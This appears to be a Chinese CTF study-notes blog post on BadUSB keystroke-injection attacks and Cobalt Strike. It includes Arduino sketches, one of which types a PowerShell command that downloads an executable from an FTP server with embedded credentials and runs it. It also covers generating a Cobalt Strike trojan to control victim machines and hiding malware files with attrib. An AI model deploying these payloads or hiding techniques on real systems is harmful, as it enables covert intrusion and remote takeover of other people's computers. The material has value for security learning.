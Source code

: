 ```yaml
---
title: CTF学习笔记（大学篇）02 —— BadUSB & CobeltStrike
date: 2022-04-16 08:22:03
tags: CTF
categories: CTF
---
```


### HID设备

人类接口设备，就是直接与人类进行交互的设备（鼠标、键盘之类的）

### HID攻击

插入一定的设备，设备有一定的标识符（例如Keyboard、Mouse），插入后就可以运行烧录在BadUSB上的指令来输入恶意代码，把木马植入计算机之中。（伪造用户击键行为等）

### USB HID攻击 VS 摆渡攻击

前者运用的是伪造的HID设备执行恶意代码，摆渡攻击是在U盘等设备放置木马程序，隐藏在存储介质之中。

### USB HID攻击特点

- 隐蔽性强
- 攻击范围广
- 权限高

攻击范围是只要能够支持USB HID接口协议的设备均可用。

### 相关编程语句

#### 默认内容

```C++
void setup() {

}

void loop() {

}
```

- `void setup()`函数内的代码只运行一次
- `void loop()`函数内的代码会一直循环运行

#### 运行cmd并打开记事本，输入相关内容

```c++
#include<Keyboard.h>
void setup() {
  // put your setup code here, to run once:
Keyboard.begin();
delay(1000);

Keyboard.press(KEY_LEFT_GUI);//win键
delay(500);
Keyboard.press('r');//r键
delay(500);
Keyboard.release(KEY_LEFT_GUI);//win键释放
Keyboard.release('r');//r键释放

Keyboard.press(KEY_CAPS_LOCK);//若目标机开启大小写，关掉即可
Keyboard.release(KEY_CAPS_LOCK);//若目标机没有开启，也不影响
delay(500);
Keyboard.println("cmd");
Keyboard.press(KEY_RETURN);
Keyboard.release(KEY_RETURN);//目标机开启中文或开启大小写键
delay(500);

//弹出记事本
Keyboard.println("notepad.exe");
delay(500);
delay(500);//可防止丢帧
Keyboard.println("you are hacked!!!");
Keyboard.println("you are hacked!!!");
Keyboard.println("you are hacked!!!");
Keyboard.press(KEY_CAPS_LOCK);//若目标机开启大小写，关掉即可
Keyboard.release(KEY_CAPS_LOCK);
Keyboard.end();//结束键盘通讯
}

void loop() {
  // put your main code here, to run repeatedly:
}
```

- `Keyboard.press`就表示按下按键，用`Keyboard.release`松开
- `KEY_LEFT_GUI`表示左边的Win按键
- `Keyboard.begin()`开启键盘通讯，`Keyboard.end()`来表示结束
- 因为插入设备的时候目标主机可能处于中文输入法，所以用`Keyboard.press(KEY_CAPS_LOCK)`打开大小写锁定，然后来输入命令，这样输入的就是英文字符而不受到中文输入法的限制了，输入完了以后记得用`Keyboard.release(KEY_CAPS_LOCK)`松开
- `Keyboard.begin()`下面的`delay(1000)`：一般来说，设备插入后计算机需要启动驱动，在这里加入延迟就是为了给计算机启动驱动的时间（甚至是安装驱动，diss一下win7以下的那堆），当然一般是3秒5秒，1秒还是太短了
- 按键的定义如下（键盘按键+编码）

```c++
///Alt和Ctrl和Shift
#define KEY_LEFT_CTRL   0x80
#define KEY_LEFT_SHIFT    0x81
#define KEY_LEFT_ALT    0x82
#define KEY_LEFT_GUI    0x83
#define KEY_RIGHT_CTRL    0x84
#define KEY_RIGHT_SHIFT   0x85
#define KEY_RIGHT_ALT   0x86
#define KEY_RIGHT_GUI   0x87
///方向键系列
#define KEY_UP_ARROW    0xDA
#define KEY_DOWN_ARROW    0xD9
#define KEY_LEFT_ARROW    0xD8
#define KEY_RIGHT_ARROW   0xD7
//特殊键位，其中RETURN就是回车
#define KEY_BACKSPACE   0xB2
#define KEY_TAB       0xB3
#define KEY_RETURN      0xB0
#define KEY_ESC       0xB1
///特殊键位，我比较常用的是DELETE
#define KEY_INSERT      0xD1
#define KEY_DELETE      0xD4
#define KEY_PAGE_UP     0xD3
#define KEY_PAGE_DOWN   0xD6
#define KEY_HOME      0xD2
#define KEY_END       0xD5
#define KEY_CAPS_LOCK   0xC1
///F区的这些那些
#define KEY_F1        0xC2
#define KEY_F2        0xC3
#define KEY_F3        0xC4
#define KEY_F4        0xC5
#define KEY_F5        0xC6
#define KEY_F6        0xC7
#define KEY_F7        0xC8
#define KEY_F8        0xC9
#define KEY_F9        0xCA
#define KEY_F10       0xCB
#define KEY_F11       0xCC
#define KEY_F12       0xCD
#define KEY_F13       0xF0
#define KEY_F14       0xF1
#define KEY_F15       0xF2
#define KEY_F16       0xF3
#define KEY_F17       0xF4
#define KEY_F18       0xF5
#define KEY_F19       0xF6
#define KEY_F20       0xF7
#define KEY_F21       0xF8
#define KEY_F22       0xF9
#define KEY_F23       0xFA
#define KEY_F24       0xFB
```

#### 利用FTP服务器存储病毒文件，利用BadUSB执行下载命令后运行

```C++
#include "Keyboard.h"

void setup() 
{
  Keyboard.begin();
  delay(2000);
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI); //win键 释放
  Keyboard.release('r'); //r键 释放
  delay(500);
  Keyboard.println("powershell $p=new-object system.net.webclient;$p.downloadfile('FTP://admin:123456@169.254.202.247/calc.exe','F:\\calc.exe');START F:\\calc.exe");
  Keyboard.end();//结束键盘通讯 
}

void loop() 
{
}

```

- FTP协议写法：`ftp://<username>:<password>@<address>:<port>`，可以通过这种方式将用户名和命令写入而无需弹出验证窗口

### CobaltStrike用法

首先需要打开Teamserver

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-2/%E7%AE%A1%E7%90%86%E5%91%98__%E8%8E%B7%E5%8F%96%E7%AE%A1%E7%90%86%E5%91%98%E6%9D%83%E9%99%90%20-%2020220416-164025.png)

然后再打开CS，连接Teamserver

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-2/Connect%20-%2020220416-164031.png)

接着就会弹出主界面

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-2/Cobalt_Strike%20-%2020220416-164039.png)

然后我们生成一个木马程序，这个程序运行后就会在主界面显示肉鸡，可以进行远程操作等操作

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-2/Windows_Executable%20-%2020220416-164049.png)

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-2/Choose_a_payload_to_stage%20-%2020220416-164045.png)

### 隐藏木马病毒

一般来说，木马下载到计算机内后，如果不隐藏很快就会被发现（这不是当然的嘛，一个不明觉厉的exe在那里谁都会感觉奇怪吧）

所以在Windows下，我们可以将文件进行隐藏，使用`attrib`命令就可以做到这一点，例如

```powershell
attrib +s +h '.\Virus.exe'
```

隐藏后可以用命令行打开（直接输入`.\Virus.exe`就行了），但是在文件资源管理器里面看不到

在Linux下，可以在文件的最前面加一个点（`.`），会被Linux认为是隐藏文件，就在文件管理器中看不到啦
